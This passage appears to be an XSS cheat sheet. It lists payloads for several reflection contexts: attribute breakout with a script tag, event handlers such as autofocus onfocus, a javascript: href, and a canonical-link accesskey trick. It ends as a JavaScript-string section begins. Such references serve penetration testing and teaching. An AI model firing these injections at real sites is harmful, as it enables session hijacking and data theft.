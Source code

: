 <br>

## XSS in HTML tag attributes

### Input is within an HTML attribute

* When the injected input is reflected within an HTML attribute, we need to close out the existing attribute/tag and introduce a new tag to execute JavaScript.

    * Example:  \<img src="*user-input*" \>

```html
"><script>alert(1)</script>
```


### Angle brackets encoded but data is reflected in attribute

* This will break out of the current attribute and introduce a new one that can execute JavaScript.  The last quotation mark is needed to ensure the syntax of the tag is correct.

    * Example:  \<input value=“*user-input*”\>

```html
Test123” autofocus onfocus=alert(1) x=” 
```

### Input is within an href attribute

* The JavaScript pseudo protocol can be used when the data is being reflected within a href attribute.

    * Example:  \<a href="*user-input*" \>

```html
javascript:alert(1)
```

### Input is within a canonical link tag

* Example:   \<link rel="canonical" href='httpss://some-site.com/*user-input*' /\>

```html
' accesskey='x' onclick='alert(1)
```

<br>

## XSS into JavaScript

### JavaScript String with single quote and backslash escaped

* Use this payload to close the existing \<script\> tag and introduce a new tag that can execute JavaScript code.
